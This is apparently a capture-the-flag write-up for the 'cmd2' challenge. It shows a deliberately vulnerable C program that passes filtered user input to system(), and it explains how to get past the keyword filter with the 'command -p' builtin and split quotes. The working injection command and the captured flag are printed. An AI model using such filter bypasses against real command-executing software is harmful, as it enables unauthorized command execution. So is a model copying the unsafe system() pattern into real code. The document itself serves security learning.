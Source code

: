 # cmd2

This is an upgrade from its prequel, [cmd1](/pwnable/toddler/cmd1.md). Let's take a look at its source code first, which is given.

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```

There's two interesting things going on here. The first is the `filter` command. It seems that it is significantly stricter, stopping us from changing any environmental variables. The second interesting thing is the `delete-env` command, which is executed upon startup. This is especially troublesome, because the command, as its name implies, deletes all environmental variables including the `PATH` variable.

Previously, we could work around the lack of a `PATH` definition by simply calling the directory of `cat`, through `/bin/cat flag`. However, that won't work here: `/` is under the filter.

Therefore, the obvious solution was to look for a built-in command that could accomplish the same thing. Luckily, such a command exists: `command`.

```
command [-pVv] command [arg ...]
              Run  command  with  args suppressing the normal shell function lookup. Only builtin
              commands or commands found in the PATH are executed.  If the -p  option  is  given,
              the  search  for  command  is  performed  using  a  default  value for PATH that is
              guaranteed to find all of the standard utilities.  If either the -V or -v option is
              supplied,  a description of command is printed.  The -v option causes a single word
              indicating the command or filename used to invoke command to be displayed;  the  -V
              option  produces  a  more verbose description.  If the -V or -v option is supplied,
              the exit status is 0 if command was found, and 1 if  not.   If  neither  option  is
              supplied  and an error occurred or command cannot be found, the exit status is 127.
              Otherwise, the exit status of the command builtin is the exit status of command.
```

`command` looks up a shell command, and either executes it or prints its description. Here, the -p flag allows us to look for a specific shell command and execute it, even if such a command isn't on the `PATH`.

Once we make that observation, everything else follows. However, there is still one more complication: the quotes. The obvious solution right now is simple:
```bash
./cmd2 "command -p cat flag"
```
However, this won't work, as flag is filtered. The workaround is surprisingly simple (Be careful when escaping quotes).
```bash
./cmd2 "command -p cat \"f\"\"l\"\"a\"\"g\""
```
Once we launch that, the answer is given immediately.
```
FuN_w1th_5h3ll_v4riabl3s_haha
```
